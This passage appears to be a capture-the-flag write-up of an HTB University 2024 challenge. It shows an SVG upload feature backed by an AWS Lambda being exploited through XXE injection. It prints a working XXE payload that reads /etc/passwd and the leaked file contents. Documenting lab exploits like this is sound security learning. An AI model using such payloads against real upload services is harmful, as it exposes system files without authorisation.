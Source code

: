 We see that the POST request is pointing towards /upload/prod/lambda and the fileData are encoded in base64. After some testing we realised we could put anything in the fileData field and we would be able to download the file back without any issues. 

The exception being with .svg files. When we would upload an svg file without the correct format we would get an error.

We then tried to do some recon on our newly found domain local.clouded.htb and we found out it was an AWS bucket running behind which used a restAPI and an AWS lambda function.

![AWS lambda](/HTB-UNIVERSITY-2024/HTB-UNIV/2024/images/aws_lambda.png)

## XXE&AWS

After a bit more searching and testing we managed to find an XXE injection in the upload feature of the website!

We used this payload:

```
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<svg xmlns="http://www.w3.org/2000/svg" width="100" height="100">
  <text x="10" y="20">&xxe;</text>
</svg>
```

When we downloaded the file from the url the site gave us it had the content of /etc/passwd in it !

```
<svg xmlns="http://www.w3.org/2000/svg" width="100" height="100">
  <text x="10" y="20">
root:x:0:0:root:/root:/bin/bash \
bin:x:1:1:bin:/bin:/sbin/nologin\
daemon:x:2:2:daemon:/sbin:/sbin/nologin\
adm:x:3:4:adm:/var/adm:/sbin/nologin\
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin\
sync:x:5:0:sync:/sbin:/bin/sync\
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown\
halt:x:7:0:halt:/sbin:/sbin/halt\
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin\
operator:x:11:0:operator:/root:/sbin/nologin\
games:x:12:100:games:/usr/games:/sbin/nologin\
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin\
nobody:x:99:99:Nobody:/:/sbin/nologin\
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin\
dbus:x:81:81:System message bus:/:/sbin/nologin\
rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin\
libstoragemgmt:x:999:997:daemon account for libstoragemgmt:/var/run/lsm:/sbin/nologin\
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin\
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin\
nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin\
ec2-instance-connect:x:998:996::/home/ec2-instance-connect:/sbin/nologin\
postfix:x:89:89::/var/spool/postfix:/sbin/nologin\
chrony:x:997:995::/var/lib/chrony:/sbin/nologin\
tcpdump:x:72:72::/:/sbin/nologin\
ec2-user:x:1000:1000:EC2 Default User:/home/ec2-user:/bin/bash\
rngd:x:996:994:Random Number Generator Daemon:/var/lib/rngd:/sbin/nologin\
slicer:x:995:992::/tmp:/sbin/nologin\
sb_logger:x:994:991::/tmp:/sbin/nologin\
```
